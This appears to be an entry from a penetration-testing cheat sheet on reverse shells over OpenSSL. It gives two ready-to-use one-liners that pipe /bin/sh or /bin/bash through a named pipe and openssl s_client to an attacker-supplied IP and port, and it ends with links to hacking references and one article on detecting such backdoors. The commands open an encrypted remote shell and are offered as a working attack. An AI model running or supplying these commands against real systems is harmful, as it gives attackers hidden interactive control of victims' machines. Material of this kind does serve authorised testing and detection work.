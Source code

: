 # OpenSSL

```
$ mkfifo /tmp/f; /bin/sh -i < /tmp/f 2>&1 | openssl s_client -quiet -connect <IP>:<PORT> > /tmp/f; rm /tmp/f

$ mkfifo /tmp/f; /bin/bash -i < /tmp/f 2>&1 | openssl s_client -quiet -connect <IP>:<PORT> > /tmp/f; rm /tmp/f
```

---
## References

- [Shells Linux](https://book.hacktricks.xyz/shells/shells/linux)

- [One-Lin3r](https://github.com/D4Vinci/One-Lin3r)

- [Rio Asmara Suryadi: OpenSSL for Reverse Shell](https://rioasmara.com/2020/06/22/openssl-for-reverse-shell/)

- [Detecting and Investigating OpenSSL Backdoors on Linux](https://www.sandflysecurity.com/blog/detecting-and-investigating-openssl-backdoors-on-linux/)